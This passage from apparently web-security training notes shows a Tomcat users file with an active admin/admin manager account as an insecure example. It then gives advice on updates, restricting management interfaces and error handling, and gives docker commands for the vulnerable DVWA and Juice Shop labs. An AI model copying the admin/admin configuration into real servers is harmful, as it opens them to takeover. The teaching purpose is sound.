                 xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
                 xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
                 version="1.0">
   <!--
     NOTE:  By default, no user is included in the "manager-gui" role required
     to operate the "/manager/html" web application.  If you wish to use this app,
     you must define such a user - the username and password are arbitrary. It is
     strongly recommended that you do NOT use one of the users in the commented out
     section below since they are intended for use with the examples web
     application.
   -->
   <!--
     NOTE:  The sample user and role entries below are intended for use with the
     examples web application. They are wrapped in a comment and thus are ignored
     when reading this file. If you wish to configure these users for use with the
     examples web application, do not forget to remove the <!.. ..> that surrounds
     them. You will also need to set the passwords to something appropriate.
   -->
   <!--
     <role rolename="tomcat"/>
     <role rolename="role1"/>
     <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
     <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
     <user username="role1" password="<must-be-changed>" roles="role1"/>
   -->
     <role rolename="admin-gui"/>
   <role rolename="manager-gui"/>
   <user username="admin" password="admin" roles="admin-gui,manager-gui"/>
     </tomcat-users>
   
   ```

   

### SECURING THE ENVIRONMENT
**STAY CURRENT WITH SERVER VERSIONS:**

* Make sure that your apache tomcat (or any web/app server used in your environment) version is
the latest.

**CONTROL WHO CAN ACCESS MANAGEMENT INTERFACES:**

* Management interfaces usually have privileged features such as deploying war files. Only
certain users or administrators need access to these interfaces. So, it is recommended to bind
these interfaces to limited IP addresses.

## Improper Error Handling

* Java (and most other languages) provides great debugging features for Web Developers.
* Stack traces are great way to find root cause of an exception.
+ But, exceptions are not for everyone to view.

**EXAMPLE SHOWING RESOURCE NOT FOUND EXCEPTION:**

* The exception shows details that are not necessary to an end user:
  - Apache Tomcat version
  - Server operating System
    


### SAFE ERROR HANDLING
* We can configure web.xml to redirect the user to an error page when an exception occurs.
* We must add a separate element to web.xml for each possible HTTP error code.


## Install Wep App via Docker

**Damn Vulnerable Web Application**

```
docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

**OWASP Juice Shop**

```
docker run --rm -it -p 3000:3000 bkimminich/juice-shop
```

